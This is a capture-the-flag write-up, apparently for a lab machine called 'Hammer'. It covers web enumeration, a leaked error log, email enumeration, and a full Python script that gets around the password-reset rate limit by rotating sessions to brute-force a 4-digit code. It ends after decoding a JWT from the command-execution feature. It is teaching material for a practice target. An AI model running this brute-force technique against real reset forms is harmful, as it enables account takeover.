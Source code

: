 
Authentication Bypass and RCE

# Enumeration 

## Nmap Scan

![](../../Pasted%20image%2020250826001827.png)
``` bash
sudo nmap -A -p 22,1337 -T4 hammer.thm -oN hammer.nmap 
```

![](../../Pasted%20image%2020250826002022.png)

## 1337 Web App Enumeration

``` bash
dirsearch -u http://hammer.thm:1337 -r -o endpoints.dirsearch 
```
Didn't find much other than the `/phpmyadmin` (now we now it is using php), some `/vendor` :
![](../../Pasted%20image%2020250826003623.png)
At the same time, visited the site manually and found some useful information on the source page

![](../../Pasted%20image%2020250826003009.png)
This indicates that possibly we need to use `hmr_` as a prefix in our enumeration.

Used the build-in prefix parameter in dirsearch: 
``` bash
dirsearch --help | grep prefix
    --prefixes=PREFIXES     Add custom prefixes to all wordlist entries
```
So, the command used was:
``` bash
dirsearch -u http://hammer.thm:1337 --prefixes=hmr_ -o prefixed.dirsearch
```
![](../../Pasted%20image%2020250826004513.png)Found `hmr_logs` directory, with directory listing and `errors.log` file:

![](../../Pasted%20image%2020250826005759.png)
Great, looks like some information:
- username enumeration: tester@hammer.thm
- possible directory discovery: `/restricted-area`, `/admin-login`, `/protected`, `/locked-down`
- System user leak: `hammmerthm` user from `/home/hammerthm/test.php`
-  Apparently Lock-down mechaniosm in place 


# Overview of the login page
Login page does not provide username enumeration since incorrect login cause the display of a generic message.
![](../../Pasted%20image%2020250826011548.png)
Although, the Forgot Password, allows for valid email enumeration, since it displays an **"Invalid Email address"** if the email is not registered. 
Confirmed the valid email tester@hammer.thm from the previously acquired knowledge:

![](../../Pasted%20image%2020250826011653.png)
We are asked for the 4-digit code sent to the email and a 180 seconds countdown starts...
Tried a random number to submit and get a look of the request and response in Burp:

![](../../Pasted%20image%2020250826015807.png)

Here, I got the information that during the 180 second, I have a 6 tries before hitting the rate limit. Repeated the request to confirm the restriction and it indeed works:
![](../../Pasted%20image%2020250826234429.png)

So, at this point I am thinking, **Is the rate limiting associated to the Session?** 
It was the only logical option for this functionality to be vulnerable to brute-forcing otherwise I needed to be lucky to catch the correct 4 digit code in only 6 tries before getting blocked.

## Confirming the idea 

First, I checked if the seconds parameter from the request affects the results or availability of the functionality, turns out it doesn't which is a big point for my brute-force idea.  
Then, prepared a second repeater tab, with no cookie value to request for a new session to try and see if the rate limit header value starts from 6, ignoring a previously sent tentative:

![](../../Pasted%20image%2020250827001050.png)
Got blocked with the original session. 

![](../../Pasted%20image%2020250827001246.png)
Got a new session cookie to use.

![](../../Pasted%20image%2020250827001436.png)
Sent two just to confirm xd. The rate limiting is reset to 8 tries using a new session. This means, it is possible to bypass the rate limiting mechanism creating a new session for each 7 requests and try possible 4-digit codes in the 180 seconds interval (each session).

# Brute Forcing Reset Code

``` python
import requests

URL = "http://hammer.thm:1337/reset_password.php"
EMAIL = "tester@hammer.thm"

def get_new_session():
    # Request a new PHPSESSID by sending the email reset form.
    s = requests.Session()
    data = {"email": EMAIL}
    r = s.post(URL, data=data)
    if "PHPSESSID" not in s.cookies:
        raise Exception("Failed to get PHPSESSID")
    return s

def try_code(session, code):
    """Submit a 4-digit code using the given session."""
    payload = {
        "recovery_code": str(code).zfill(4),
        "s": "174"   # static value from your requests
    }
    r = session.post(URL, data=payload)
    return r

def is_success(response, baseline_length):
    """Decide if response indicates success (different length/contents)."""
    return len(response.text) != baseline_length

# ---------------- MAIN -----------------
print("[*] Getting baseline response...")
baseline_session = get_new_session()
baseline_resp = try_code(baseline_session, 9999)  # guaranteed wrong
baseline_length = len(baseline_resp.text)

print(f"[*] Baseline response length: {baseline_length}")
print("[*] Starting brute-force...")

attempts = 0

for code in range(0, 10000):
    if attempts % 7 == 0:  # refresh session every 7 tries
        session = get_new_session()

    resp = try_code(session, code)
    attempts += 1

    if is_success(resp, baseline_length):
        print(f"\n[+] SUCCESS! Code: {code:04d}")
        print("[+] Session cookie:", session.cookies.get_dict())
       # print("[+] Response snippet:\n", resp.text[:300])
        break


```

How It Works
```
1. **Baseline**: gets the length of a known invalid response (e.g., `9999`).
2. **Loop 0000–9999**:
    - Every 7 attempts → requests a new session (to reset rate limit).
    - Submits the code with that session.
3. **Detect success**: compares response length vs baseline.
    - If it’s different → likely success 
4. **Stops immediately** and prints code + session cookie.
```

Executed it and got the session that found the correct code:

![](../../Pasted%20image%2020250827011527.png)
Used that session value to update the cookie on the opened browser and refresh the reset password page:
![](../../Pasted%20image%2020250827011614.png)
Changed it to `test123` and confirmed. Then used it to login and got the first flag: 
![](../../Pasted%20image%2020250827011913.png)


# Enumeration  -  Part II :)

## Viewing Source Code and Analysing the behavior
So, first thing that  I did was to view the source code. Found some useful information:

1.  there is a script that logs us out every X seconds: 
![](../../Pasted%20image%2020250827234808.png)
2. The command execution handling script:
![](../../Pasted%20image%2020250828000318.png)
 
 The first script is based in the existence of the `persistenceSession` cookie. Tried to bypass it setting different values on the browser's development tools, but failed... 
 It appears that the cookie is fully deleted or expires... so I logged in again and paid attention to the `Set-Cookie` headers in the logins POST reponse:
 ![](../../Pasted%20image%2020250827235353.png)
 Yes, the `persistentSession` expires after 20 second... Although there is a JWT token which expiration's is set to 10 minutes. 
 >This means that I can **continue to use it in Burp Repeater**, this way I don't need to continuously log in from the browser.

The second Script is used to send Ajax calls using our JWT token for authorization. 

`ls` command works fine and we get some interesting files:
![](../../Pasted%20image%2020250828001341.png)

However, other commands seem to be blocked. We can try to brute-force for allowed ones...
![](../../Pasted%20image%2020250828001004.png)


Token 
`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiIsImtpZCI6Ii92YXIvd3d3L215a2V5LmtleSJ9.eyJpc3MiOiJodHRwOi8vaGFtbWVyLnRobSIsImF1ZCI6Imh0dHA6Ly9oYW1tZXIudGhtIiwiaWF0IjoxNzU2MzMzNzY3LCJleHAiOjE3NTYzMzczNjcsImRhdGEiOnsidXNlcl9pZCI6MSwiZW1haWwiOiJ0ZXN0ZXJAaGFtbWVyLnRobSIsInJvbGUiOiJ1c2VyIn19.Q4WuP50gj3-IYzf3BINENI3rFLW9XGX_IW5Vi0SNaXM`
https://www.jwt.io/
![](../../Pasted%20image%2020250828001857.png)
